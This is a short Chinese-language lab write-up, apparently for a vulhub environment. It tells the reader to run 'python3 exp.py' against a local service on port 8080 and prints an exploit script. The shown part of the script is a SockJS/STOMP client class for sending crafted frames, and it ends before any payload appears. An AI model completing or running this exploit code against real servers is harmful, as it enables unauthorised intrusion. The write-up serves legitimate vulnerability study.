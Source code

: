 启动完成后可以成功访问`http://your-ip:8080`

![image-20211208152852470](https://s2.loli.net/2022/03/26/SqgD3w5XeTj8yfB.png)

发送数据包
python3 exp.py 

EXP：

```
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


```